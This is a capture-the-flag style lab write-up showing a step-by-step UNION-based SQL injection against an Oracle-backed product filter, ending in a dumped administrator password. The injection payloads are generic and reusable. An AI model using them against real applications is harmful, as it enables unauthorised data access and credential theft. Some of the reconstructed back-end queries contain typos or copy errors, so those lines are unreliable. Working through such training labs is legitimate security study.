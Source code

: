 # Lab: SQL injection attack, listing the database contents on Oracle

- sqli: product category fillter
- end goal:  log in as the administrator user

### Analysis
- url: `https://0ab4004003e41eed88c2ed560098006d.web-security-academy.net/`

- front-end: `/filter?category=Pets`
- back-end:
```sql
select * from product where category = 'Pets' ans released = 1
```

- check sqli vulnerability
- front-end: `/filter?category=Pets'`
- back-end:
```sql
select * from product where category = 'Pets'' ans released = 1
'-- 500 Internal Server Error 
```

- front-end: `/filter?category=Pets'--`
- back-end:
```sql
select * from product where category = 'Pets'--' ans released = 1
-- 200 OK: oracle database
```

- determine how many columns 
- front-end: `/filter?category=Pets' order by2--`
- back-end:
```sql
select * from product where category = 'Pets' order by 2--' ans released = 1
-- 200 OK: contain 2 columns
```

- determine data type of the columns 
- front-end: `/filter?category=Pets' union select 'a', 'a' from dual--`
- back-end:
```sql
select * from product where category = 'Pets'' union select 'a', 'a' from dual-- ans released = 1
'-- 200 OK: both columns are text
```

- display the database version 
- front-end: `/filter?category=Pets' union select banner, null from v$version--`
- back-end:
```sql
select * from product where category = 'Pets'' union select banner, null from v$version-- ans released = 1
'-- 200 OK: Oracle Database 11.2.0.2.0
```

- output the list of tables in the database
- front-end: `/filter?category=Pets' union select table_name, null from all_tables--`
- back-end:
```sql
select * from product where category = 'Pets'' union select table_name, null from all_tables--
'-- 200 OK: table name: USERS_BMPJSO
```

- output the columns of the users table
- front-end: `/filter?category=Pets' union select column_name, null from all_tab_columns where table_name= 'USERS_BMPJSO'--`
- back-end:
```sql
select * from product where category = 'Pets'' union select table_name, null from all_tables--
'-- 200 OK: column name: USERNAME_XTEEQM
-- column name: PASSWORD_CGTCHV  
```

- output usernames and passwords
- front-end: `/filter?category=Pets' union select USERNAME_XTEEQM, PASSWORD_CGTCHV from USERS_BMPJSO--`
- back-end:
```sql
select * from product where category = 'Pets'' union select USERNAME_XTEEQM, PASSWORD_CGTCHV from USERS_BMPJSO--
'-- 200 OK: username: administrator
-- password: fliavnpnhzwifdrtgvht  
```
- login as administrator account
- Congratulations, you solved the lab!

---